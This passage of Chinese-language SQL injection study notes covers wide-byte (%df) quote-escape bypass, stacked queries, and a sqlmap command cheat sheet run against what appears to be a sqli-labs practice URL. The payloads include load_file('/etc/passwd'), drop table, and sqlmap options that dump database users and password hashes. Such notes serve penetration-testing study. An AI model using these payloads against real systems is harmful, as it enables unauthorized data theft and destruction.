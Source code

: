 

```
'会被转义为\'
```

我们要想绕过这个转义，就得把 ‘ 的 \ 给去掉。那么怎么去掉呢。

\1. 在转义之后，想办法让\前面再加一个\，或者偶数个\即可，这样就变成了\’ ，\ 被转义了，而 ‘ 逃出了限制。

2.在转义之后，想办法把 \ 弄没有，只留下一个 ' 。

#### 注入检测

```
一般，单双引号 括号都无报错，应该就是被过滤了。
或者报错如下  大致就是多了一个\
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' LIMIT 0,1' at line 1
```



#### 绕过方法

```
宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码是%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

```



### 堆叠注入

基础操作，就是使用分号执行多条命令。

#### 基础知识(mysql)

```
新建一个表				select * from users;create table A like users;
删除刚才创建的表		  select * from users;drop table test;
查询数据				 select * from users;select B,C,D;
加载文件				 select * from users;select load_file('/etc/passwd');
增加一条数据			    select *  from users;insert into users values(18,2,3,);
```

### 盲注

### Sqlmap基本使用

```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
```
